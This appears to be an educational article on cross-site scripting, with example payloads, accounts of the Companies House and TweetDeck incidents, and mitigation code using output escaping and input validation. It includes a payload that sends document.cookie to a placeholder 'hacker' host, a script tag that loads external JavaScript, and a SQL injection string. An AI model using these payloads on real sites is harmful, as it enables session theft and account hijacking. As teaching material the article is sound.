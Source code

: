 # XSS — what is it and how to protect yourself?

![Exploits of a Mom](https://imgs.xkcd.com/comics/exploits_of_a_mom.png)



## Briefly about XSS vulnerabilities

What is XSS? How to search? How to understand if there is XSS or not? We'll figure it out now. Let's go!

**XSS (Cross-Site Scripting)** — the ability to execute arbitrary JavaScript code in the victim's browser in the context of your site.

XSS is one of the most common vulnerabilities in the web. More than 95% of web applications are vulnerable to XSS. To find a bug, it is not necessary to have special skills, take courses or get a higher education.

Indeed, despite the fact that XSS is a common vulnerability, it remains one of the most serious client vulnerabilities.



## How does XSS work?

![](https://i.imgur.com/6n7lsIg.png)

Cross-site scripting works by manipulating a vulnerable web site so that it returns malicious JavaScript to users. When the malicious code executes inside a victim's browser, the attacker can fully compromise their interaction with the application.



## XSS examples 

**Example 1.**
For example, the HTML snippet:

```html
<title>Example document: %(title)</title>
```

is intended to illustrate a template snippet that, if the variable title has value [Cross-Site Scripting](https://www.veracode.com/blog/2012/07/what-is-cross-site-scripting), results in the following HTML to be emitted to the browser:

```html
<title>Example document: XSS Doc</title>
```


A site containing a search field does not have the proper input sanitizing. By crafting a search query looking something like this:

```html
"><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>
```


sitting on the other end, at the web server, you will be receiving hits where after a double space is the user's cookie. If an administrator clicks the link, an attacker could steal the session ID and hijack the session.

 

**Example 2.**
Suppose there's a URL on Google's site, `*http://www.google.com/search?q=flowers*`, which returns HTML documents containing the fragment

```html
<p>Your search for 'flowers' returned the following results:</p>
```

i.e., the value of the query parameter q is inserted into the page returned by Google. Suppose further that the data is not validated, filtered or escaped. 
Evil.org could put up a page that causes the following URL to be loaded in the browser (e.g., in an invisible*<iframe>*):

```html
http://www.google.com/search?q=flowers+%3Cscript%3Eevil_script()%3C/script%3E
```

When a victim loads this page from [www.evil.org](https://www.veracode.com/security/xss#), the browser will load the iframe from the URL above. The document loaded into the iframe will now contain the fragment

```html
<p>Your search for 'flowers <script>evil_script()</script>'
```

```html
returned the following results:</p>
```


Loading this page will cause the browser to execute *evil_script()*. Furthermore, this script will execute in the context of a page loaded from *www.google.com.*

 

## The real story with the British Register of Companies

On October 20, a certain Jim Walker shared an interesting observation on the forum of developers of the British state register of companies Companies House. Companies House allows the characters < and > in company names. This opens up scope for attacks on those sites that do not filter and do not screen control characters in the correct way. If the site displays the company name and does not synthesize data, then it is potentially vulnerable to an XSS attack.

Walker discovered that on October 16, a certain Michael John Tandy had registered a company with the name `"><SCRIPT SRC=HTTPS://MJT.XSS.HT></SCRIPT> LTD`. If there is no XSS filter, what is the company name embedding code on the web page that calls external JavaScript.

![img](https://habrastorage.org/r/w1560/webt/cp/-8/pl/cp-8plobwfxzzz724_jpguf9zfu.png)

On October 22, the regulator sent a warning to its partners about "company 12956509". The letter carefully avoids mentioning the real name. The company is called by the number in the database.

In the letter, employees give a brief educational program about the nature of XSS attacks and warn about possible security risks.

![img](https://habrastorage.org/r/w1560/webt/sy/qc/7f/syqc7f6wqc4odbw-kkw07zy9msi.png)

Companies House hid the company's name to the maximum. As noted on Twitter (X), even the statement about the institution 12956509 in the name field contained: "The name of the company is provided on request."

The culprit of the event himself appeared in Jim Walker's thread on October 23, three days after the discovery. Michael Tandy explained that it would be irresponsible for him to disclose information on a public forum, so he contacted Companies House through a technical support ticket.

Resources that receive information from the Companies House registry are vulnerable. Michael said that he is already contacting all the sites that called his script. As a security researcher complained, sites vulnerable to XSS rarely post contacts for communication and do not have an account on HackerOne-type services.

At the forum, Company House employees confirmed that they had received Tandy's messages. The name "company 12956509" was changed to *THAT COMPANY WHOSE NAME USED TO CONTAIN HTML SCRIPT TAGS LTD* (literally "the company whose name used to contain HTML tags"). It is unknown whether the vulnerability in Company House systems has been fixed. Perhaps the registry has introduced special restrictions on names.

It is not the first time that attempts to inject code are found in the Companies House registry. In 2016, a company with SQL injection appeared under the number 10542519: `; DROP TABLE "COMPANIES";-- LTD`



## XSS attack on Twitter (X)

In 2014, an Austrian teenager @firoxl was experimenting with his feed on Twitter, trying to make it display the Unicode ‘heart’ character. By doing so, he inadvertently discovered that Twitter’s feed was vulnerable to an XSS attack! @firoxl immediately reported the issue to Twitter, but it was too late. His discovery was already making rounds on social media.

Less than two hours after @froxl’s discovery, a German IT student @derGeruhn published a Tweet that exploited XSS to ... retweet itself. Thus, the self-retweeting tweet was released into the world. It retweeted itself hundreds of thousands of times and affected thousands of Twitter accounts, including @NYTimes and @BBCBreaking. To end its reign, Twitter had to take their whole feed offline.

On the left you will find an image that shows the content of the self-retweeting tweet. The tweet contains malicious JavaScript code which gets executed every time someone views the tweet in their feed. The script accesses the HTML of the Twitter page, finds the “retweet” button, and presses it to retweet itself.

![A self-retweeting tweet](https://images.ctfassets.net/4un77bcsnjzw/3ho0b9vT3FYIBKWiWGe0bu/3a387ca01b12ac1010ae6f2fa9546cb6/tweetdeck-hacked.png)



## XSS mitigation

### 1. Find places where user input gets injected into a response

XSS is extremely popular for a reason: we programmers very often inject user-supplied data into the responses we send back to users. The first step to mitigate XSS is to find all places in your code where this pattern occurs. Input data might be coming from a database or directly from a user request. Any data which might have originated from a user at any point in the past is a suspect.



### 2. Escape the output

Having identified all the places where XSS might be happening, it’s time to get your hands dirty and code your way out of danger. The first and the most important XSS mitigation step is to escape your HTML output. To do that, you should HTML-encode all dangerous characters in the user-controlled data before injecting that data into your HTML output.

For example, when HTML-encoded, the character `<` becomes `&lt`, and the character `&` becomes `&amp` etc. This way, the browser will safely handle the HTML-encoded characters, i.e. it will not assume they are part of the HTML structure of your page.

Remember to encode all dangerous characters. Don’t assume only a subset of characters needs to be escaped for your specific use case. Bad guys are very creative and will always find ways to bypass your assumptions.

Instead of writing an escape function by yourself, use a well-proven library such as [lodash.escape](https://www.npmjs.com/package/lodash.escape).

![XSS mitigation where a hacker tries to inject a malicious script but the script's content is escaped](https://images.ctfassets.net/4un77bcsnjzw/1ABjVui53sICnyiBxPduPO/6efb664e2b908f2f394abc8ca755dd6a/XSS_Mitigation.svg)

```javascript
import escape from 'lodash.escape';

function handleMessageSend(messageId, senderEmail, messageContent)  {
  database.save(messageId, senderEmail, messageContent);
}

function generateMessageHTML(messageId) {
  let messageContent = database.loadContent(messageId);
  let escapedContent = escape(messageContent);
  return `<p class="messageContent">${escapedContent}</p>`;
}
```



### 3. Perform input validation

Be as strict as possible with the data you receive from your users. Before including user-controlled data in an HTTP response or writing it to a database, validate it is in the format you expect. Never rely on blocklisting—the bad guys will always find ways to bypass it!

For instance, in our chat application, we expect the messageId to be a valid UUID and the senderEmail to be a valid email. Note that in the example we changed generateMessageHTML to generateSenderHTML. This demonstrates two layers of defence to prevent XSS with the senderEmail parameter: we both validate it before saving it to a database and later escape it when injecting it into HTML.

We can use validator.js, which has validation functions for many common data types.

```javascript
import escape from 'lodash.escape';
import isEmail from 'validator/lib/isEmail.js';
import isUUId from 'validator/lib/isUUID.js';

function handleMessageSend(messageId, senderEmail, messageContent)  {
  if (!isUUId(messageId)) {
    throw new Error("validation of messageId parameter failed");
  }

  if (!isEmail(senderEmail)) {
    throw new Error("validation of email parameter failed");
  }

  database.save(messageId, senderEmail, messageContent);
}

function generateSenderHTML(messageId) {
  let messageSender = database.loadSender(messageId);
  let escapedSender = escape(messageSender);
  return `<div class="messageSender">${escapedSender}</div>`;
}
```



### 4. Don’t put user input in dangerous places

The above mitigation is effective against situations where user input is used as the content of an HTML element (e.g. `<div> user_input </div>` or `<p> user_input </p>` etc.). However, there are certain locations where you should never put a user-controlled input. These locations include:

- Inside the `<script>` tag
- Inside CSS (e.g. inside the `<style>` tag)
- Inside an HTML attribute (e.g. `<div attr=user_input>`)

There are some exceptions to the above rules, but explaining them goes beyond the scope of this lesson. If you do need to place user-controlled input inside any of the listed locations, please follow the [OWASP Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) for a more detailed advice.



## Some resources that describe ways to protect XSS

1. OWASP Foundation: The OWASP website provides an overview of XSS attacks and how to test for them. It also offers a set of reusable security components in several languages, including validation and escaping routines to prevent parameter tampering and the injection of XSS attacks.
2. Web Security Academy: This website explains what XSS is, how it works, and how to prevent it. It also provides examples of different types of XSS attacks, such as reflected, stored, and DOM-based XSS. 
3. TechTarget: This website provides a definition of XSS and how it works. It also explains how to prevent and fix it.
4. Trend Micro: This website explores the three types of XSS attacks: reflected, stored, and DOM-based. It also provides information on how to mitigate XSS vulnerabilities in your projects. 
5. Synopsys: This website explains what XSS is and how it works. It also provides examples of how attackers can initiate an XSS attack and the potential consequences of such an attack. 
6. Acunetix: This website explains what XSS is and how it works. It also provides information on the different types of XSS attacks and how to prevent them.
